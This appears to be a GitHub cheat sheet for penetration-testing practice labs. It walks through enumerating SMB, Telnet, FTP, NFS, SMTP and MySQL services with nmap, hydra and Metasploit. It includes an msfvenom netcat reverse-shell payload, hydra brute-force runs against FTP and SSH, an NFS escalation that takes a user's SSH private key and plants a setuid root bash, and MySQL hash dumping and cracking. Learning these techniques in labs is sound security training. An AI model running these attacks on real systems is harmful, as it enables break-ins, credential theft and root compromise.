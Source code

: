 # Enumeration-Techniques
## SMB Enumeration
**1. Scan the network and find out port with** : `nmap -sV -p <port> <ip>` **(default port 445)**\
**2. After that enumerate smb server with Enum4linux** : `enum4linux [options] <ip>`
<details>
  <summary>Enum4linux options</summary>
  <p>-U  get userlist</p>
  <p>-M  get machine list</p>
  <p>-N   get namelist dump (different from -U and-M)</p>
  <p>-S  get sharelist</p>
  <p>-P  get password policy information</p>
  <p>-G  get group and member list</p>
  <p>-a  all of the above (full basic enumeration)</p>
</details>

### Other Enumeration Techniques (unix)
  `nmap -v -p 139,445 -oG smb.txt <ip range>` \
  `nbt scan -r <ip/range>`\
  `nmap -v -p 139,445 –script smb-os-discovery <ip>`
  
**Extra** `smbclient //IP/SHARE` **(for connecting)**

  
### On Windows
  `Net view \\dc01 /all`


## Telnet Enumeration
**1. Scan the network to identify the port (default 23)** : `nmap -sV -p- <ip>` **(scan all ports)** \
**Can use `--stats-every 5s` for checking progress in nmap if you're impatient like me. ;)**\
**Extra** : `sudo tcpdump ip proto \\icmp -i tun0` **use this for starting a tcpdump listner to identify any kind of backdoor etc.**

<h3>Reverse Shell using netcat</h3>

**MSFVenom payload generate** : `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`


## FTP Enumeration
**1. Scan the network like always (use nmap my choice)**\
**2. Try default username & password combinations** [Seclists FTP Default Credentials](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)\
**3. Bruteforce username and passwords using hydra**

**Usage** : `hydra -l <username> -P passwordslist.txt ftp://<ip>`\
**Usage** : `hydra -L usernames.txt -P passwordlist.txt ftp://<ip>:port`

## NFS Enumeration
**1. Scanning target all ports with nmap (agressive scan use with cation)** : `nmap -A -p- <target ip> --stats-every 5s`\
**2. Create a mount point to access shared folder** : `mkdir -p /tmp/mount`\
**3. Listing NFS share** : `/usr/sbin/showmount -e <ip>`\
**4. Mount into your system** : `sudo mount -t nfs IP:share /tmp/mount/ -nolock`

<details>
  <summary>Privilege Escalation</summary>
  
1. Go to mount point here mine is `/tmp/mount` and the shared folder was `cappucino` enter the folder
2. Search for `.ssh/id_rsa` copy that to your system and login using user\
Extra : **Download NFS files using scp** : `scp -i id_rsa username@<target ip>:/bin/bash ~/Downloads/bash`
3. **Download manually** : [bash](https://raw.githubusercontent.com/polo-sec/writing/refs/heads/master/Security%20Challenge%20Walkthroughs/Networks%202/bash)
4. On another tab go to **/tmp/mount/cappucino** on attacker machine and copy the bash shell downloaded previous line [bash](https://raw.githubusercontent.com/polo-sec/writing/refs/heads/master/Security%20Challenge%20Walkthroughs/Networks%202/bash)
5. change the bash file ownership to root using : `sudo chown root bash`
6. Give the bash shell special and executable privilege with : `sudo chmod +xs bash`
7. Login to ssh with the user and check for the bash file you've put just now and execute using : `./bash -p`
8. Bam !! You got the root shell 😅 ?
</details>

## SMTP Enumeration
**1. As always find out the port SMPT running on using (default port 25)** : `nmap -sV -p- <target ip>` or `nmap -A -p- <target ip>`\
  **Important for next step: Install metasploit-framework for using available modules for enumeration and exploitation**\
  **`sudo apt install metasploit-framework` or refer to this [Metasploit-Framework](https://github.com/rapid7/metasploit-framework?tab=readme-ov-file)**\
**2. Start Metasploit-Framework using** : `msfconsole`\
**3. Search for module with** : `search smpt_version`\
**4. Select the module by typing** : `use 0` **0 is the index number** or `use auxiliary/scanner/smtp/smtp_version`\
**5. Use** : `info` **or** `options` **to see required options needed to be set**\
**6. Use (in this case only needed to be rhosts becasuse port was same as 25, change if needed) :** `set rhost <target ip>`\
**7. Run the exploit using :** `run` or `exploit`\
Got the info !! 😸

<h3>Let's Try other modules for more info</h3>

**1. Search another module** : `search smtp_enum` and select it using `use 0` or `use auxiliary/scanner/smtp/smtp_enum`\
**2. Set required options** : `set rhosts <target ip>` & `set user_file /path/top-usernames-shortlist.txt`\
  **Download the username file from here**: [usernames/seclists](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt)\
**3. Run the exploit:** `run` or `exploit`\
**Yay !! Got the username [administrator]()**

<h3>Now we'll use Hydra to dictionary attack on ssh with the username for passwords using rockyou.txt</h3>

[rockyou.txt](https://raw.githubusercontent.com/zacheller/rockyou/refs/heads/master/rockyou.txt.tar.gz)\
**Using hydra :** `hydra -l administrator -P /path/rockyou.txt ssh://<target ip> -t 4`\
(check man page or hydra --help for more combinations)\
**Hope you got the password now login to ssh** `ssh administrator@<ip>` then enter password 🙂

## MYSQL Enumeration (Used Vuln Lab)
**1. Find the port on which mysql db (default port 3306) running using nmap (same as previous command)**\
**2. Open metasploit and search for mysql_sql** : `search mysql_sql` and\
select using `use auxiliary/admin/mysql/mysql_sql` or `use 0` (0 is the index number mentioned in msfconsole)\
**3. Set the required parameters like RHOSTS USERNAME and PASSWORD and run**\
**4. Use module `auxiliary/scanner/mysql/mysql_schemadump` to gather more info**\
**5. Next this module for hashdump `auxiliary/scanner/mysql/mysql_hashdump`**\
**Got the hashdump and start using hashcat or john to crack the hash** : `hashcat -a 0 -m 300 <hash> /path/rockyou.txt`\
**After getting the password logged in due to insecure and same password on ssh**
